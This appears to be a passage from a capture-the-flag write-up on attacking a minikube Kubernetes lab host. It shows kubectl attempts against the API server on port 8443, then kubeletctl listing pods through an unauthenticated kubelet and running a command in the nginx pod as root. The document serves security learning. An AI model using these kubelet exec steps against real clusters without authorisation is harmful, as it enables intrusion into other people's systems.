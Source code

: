 ![](images/minikube_default_port.jpg)

Based on this diagram and port info from documentation, 
on port 8443 is api server in minikube.

Trying go access it with kubectl tool did not yield promising results:

```sh
> kubectl --server https://10.10.11.133:8443 get pod
Please enter Username: ^C
> kubectl --server https://10.10.11.133:8443 get namespaces
Please enter Username: ^C
> kubectl --server https://10.10.11.133:8443 cluster-info
Please enter Username: ^C
```

Instead, we will use another tool, kubeletct, to try to access 
kubelets on the server:

```sh
> kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata | [.name, .namespace]'
["kube-proxy-86tm7","kube-system"]
["storage-provisioner","kube-system"]
["kube-controller-manager-steamcloud","kube-system"]
["kube-scheduler-steamcloud","kube-system"]
["kube-apiserver-steamcloud","kube-system"]
["etcd-steamcloud","kube-system"]
["nginx","default"]
["coredns-78fcd69978-wpcxr","kube-system"]
```

# Root nginx shell

Based on previous attempts with kubectl, we can assume that pods in 
kube-system namespace won't be accessible to just anyone.
There is only one pod that is in different, "default" group. 
We will try to execute command on it:

```sh
> kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx
uid=0(root) gid=0(root) groups=0(root)
```
